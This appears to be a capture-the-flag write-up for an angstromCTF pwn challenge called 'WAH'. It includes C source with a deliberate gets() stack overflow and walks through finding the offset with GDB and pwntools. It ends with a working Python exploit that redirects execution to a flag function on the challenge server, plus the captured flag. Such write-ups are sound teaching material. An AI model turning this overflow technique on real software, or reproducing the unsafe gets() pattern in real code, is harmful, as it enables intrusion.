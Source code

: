 # WAH - Pwn

## Challenge description
> Baby friendly!

Source code:
```C
#include <stdio.h>
#include <stdlib.h>

void flag(){
    char flag[128];
    
    FILE *file = fopen("flag.txt","r");
    if (!file) {
        puts("Error: missing flag.txt.");
        exit(1);
    }

    fgets(flag, 128, file);
    puts(flag);
}


int main(){
    setbuf(stdout, NULL);
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
    
    char cry[24];

    printf("Cry: ");

    gets(cry);
    return 0;
}
```
## Solution
We need to find a way to call the ```flag``` function, first let us note that PIE (Position Independent Executables) is disabled:

![Screenshot from 2022-05-09 15-01-06](https://user-images.githubusercontent.com/54234250/167407366-54f8466f-526b-4dc9-bb95-0a8afcd3af91.png)

which means we can just note the address of the ```flag``` function and use it later, because it is constant.
I used ```GDB``` to get the address of the ```flag``` function:

![Screenshot from 2022-05-09 15-15-17](https://user-images.githubusercontent.com/54234250/167407885-9b048e38-6bc3-4551-9673-f09fcb8eeade.png)

address of flag function : ```0x0000000000401236```.
Next, I had to find the offset from the ```cry``` buffer to the ```RIP``` register, you can test it manually using gdb (I use gdb-pwndbg).

Let's set a breakpoint after the ```gets``` function:

![Screenshot from 2022-05-09 15-47-10](https://user-images.githubusercontent.com/54234250/167412867-fad97ee5-d585-44c8-88f9-b528b30140aa.png)

I will use the command ```cyclic 100``` from pwntools to generate a payload that will be easier to find the offset with, we received the following payload: ```aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa```.

![Screenshot from 2022-05-09 15-50-26](https://user-images.githubusercontent.com/54234250/167413423-2d1d9d93-4360-4126-b907-6953a87eb7cf.png)

From the picture above, we can see that the sequence ```aaal (0x6161616c)``` overwritten the return address, we can use ```cyclic -l aaal``` to retrieve the offset which is ```40```.

Now we can write a script to override the return address with the address of the ```flag``` function:
```python
from pwn import *

r = remote("challs.actf.co", 31224)

context.log_level = 'debug'

# 0x401236 - address of flag function
r.sendlineafter(b':', b'a'*40 + p64(0x401236))

# print response from server
print("\n" + r.recvall().strip().decode())
```
> actf{lo0k_both_w4ys_before_y0u_cros5_my_m1nd_c9a2c82aba6e}
